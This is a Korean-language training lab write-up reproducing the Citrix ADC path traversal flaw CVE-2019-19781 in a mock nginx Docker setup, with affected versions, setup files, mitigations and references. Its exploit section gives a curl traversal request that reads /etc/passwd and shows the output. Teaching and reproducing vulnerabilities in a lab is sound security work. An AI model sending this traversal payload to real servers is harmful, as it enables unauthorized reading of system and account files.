 # CVE-2019-19781(Citrix ADC Path Traversal Vulnerability)

- **작성자** : 화이트햇 3기 6반 김현진
- **github** : https://github.com/hyunjin0334/kr-vulhub/tree/main/CVE-2019-19781
- **Pull Requests** : https://github.com/gunh0/kr-vulhub/pull/302#issue-3023100122


## 개요
- **CVE 번호** : CVE-2019-19781

- **공개 날짜** : 2019년 12월 17일
  
- **취약점 요약** : Citrix ADC(Application Delivery Controller)는 WEB/WAN 가속, 웹-방화벽, L7 DDoS 방어 등 다양한 기능이 포함된 올인원 제품입니다. Citrix Gateway는 원격 엑세스를 단순하게 만들어주며, 앱과 리소스에 대한 액세스를 보호합니다.  
이 두 장비의 일부 버전에서 입력값에 대한 적절한 검증이 부족하여 공격자가 임의 코드를 실행시킬 수 있는 취약점이 발견되었습니다. Directory Traversal을 허용하는 문제점이 발견된 것입니다. /vpns/ 폴더에 대한 검증이 부족하여 민감한 파일을 읽거나 원격 코드를 실행(RCE)시킬 수 있습니다.

- **영향을 받는 버전** : (2020년 7월 이전에 지원된 버전)
  - Citrix ADC 13.0 이하
  - Citrix ADC 12.1 이하
  - Citrix ADC 12.0 이하
  - Citrix ADC 11.1 이하
  - Citrix ADC 10.5 이하


## 환경 구성 
- **Base Image** : nginx:1.17-alpine
  
    - **선정 이유** : Citrix ADC는 라이선스 없이 사용할 수 없으며 Base image가 존재하지 않기 때문에 직접 사용할 수 없었습니다. 따라서 오픈 웹서버이며 경로 매핑을 자유롭게 할 수 있는 것을 선정하여 실습 환경을 구성하여야 했습니다. nginx는 경로 매핑을 자유롭게 할 수 있기 때문에 Direatory Traversal 환경을 구축할 수 있었습니다. 또한 alpine 기반 이미지를 통해 빌드 속도와, 가벼운 Docker환경을 구축하고자 하였습니다.
 
- **구성 파일** :
  - Dockerfile
  - docker-compose.yml
  - nginx.conf
  - html/index.html
  - html/etc/passwd
 
- **Directory**
```text
cve201919781/
├── Dockerfile
├── docker-compose.yml
├── nginx.conf
└── html/
    ├── index.html
    └── etc/
        └── passwd
```

## 익스플로잇 및 결과 
- **1. Docker 빌드 및 실행** :
```
docker-compose up --build
```
![1](https://github.com/user-attachments/assets/ec009766-e959-490d-8b44-8e56e92a1079)
 

- **2. 브라우저 접속 확인** :
```
http://localhost:8080/
```
![2](https://github.com/user-attachments/assets/a27cd4ce-bba3-4fe7-8c8e-1142ccab8bd8)  

정상적으로 접속되면 'CVE-2019-19781 Test Page'가 뜨게 됩니다.   

- **3. curl을 이용하여 Directory Traversal 공격 시도** :
```
curl http://localhost:8080/vpn/../vpns/../etc/passwd
```
해당 명령어는 curl을 통해 'http://localhost:8080'에 '/vpn/../vpns/../etc/passwd'요청을 하는 것입니다. 경로조작을 통해 민감정보인 서버 내부의 /etc/passwd와 같은 사용자 계정 정보가 저장된 중요한 파일을 읽어내려는 공격입니다.

- **4. 공격 결과 출력** :
``` 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
```
![3](https://github.com/user-attachments/assets/ed06f57d-cc8b-4ef4-b5d4-896d5ea5d943)  
/etc/passwd 안의 정보가 그대로 출력되어 공격에 성공하게 됩니다. 


## 정리
해당 취약점을 통해 민감 정보가 들어 있는 서버 내부의 파일에 인증 없이 접근이 가능했습니다. 해당 PoC에서는 내부의 민감 정보 파일에 정보를 읽도록 하였습니다. 간단히 원격 코드 실행(RCE)을 할 수 있었으며, 인증이 부족하다는 것으로 가장 민감한 정보까지 획득이 가능했습니다.   
취약점이 발견될 당시 /.../이 포함된 요청이나 /vpns/에 접근하려는 요청을 차단하길 권장하였습니다. 또한 snort 탐지 룰을 적용하여 모니터링하고 차단하기를 권장하였습니다. 현재는 보안 패치를 적용하여 해당 취약점에 대해 조치를 취한 상태입니다.

## 참고 자료 
- [CVE-2019-19781 Detail](https://nvd.nist.gov/vuln/detail/cve-2019-19781)
- [Citrix ADC and Gateway 취약점 (CVE-2019-19781)](https://ggonmerr.tistory.com/141)
- [[해외동향] Citrix 보안취약점(CVE-2019-19781) 점검도구 공개](https://www.cyberone.kr/news-trends-detail?id=56192&page=1)
- [보안 권고: 임의 코드 실행으로 이어지는 Citrix Application Delivery Controller 및 Citrix Gateway의 취약성(CVE-2019-19781)](https://www.silverfort.com/ko/blog/recommended-mitigation-steps-for-vulnerability-in-citrix-adc-and-citrix-gateway-cve-2019019781/)
- [Citrix Application Delivery Controller, Citrix Gateway, and Citrix SD-WAN WANOP appliance Security Update](https://support.citrix.com/s/article/CTX276688-citrix-application-delivery-controller-citrix-gateway-and-citrix-sdwan-wanop-appliance-security-update?language=en_US)
- [Nginx 개념 및 nginx.conf 설정](https://narup.tistory.com/209)
- [Citrix ADC and Gateway RCE Vulnerability (CVE-2019-19781)](https://peemangit.tistory.com/399)
- [New Snort rules protect against recently discovered Citrix vulnerability](https://blog.talosintelligence.com/snort-rules-cve-2019-19781/)
-[Detecting Citrix CVE-2019-19781](https://www.cisa.gov/news-events/cybersecurity-advisories/aa20-031a)



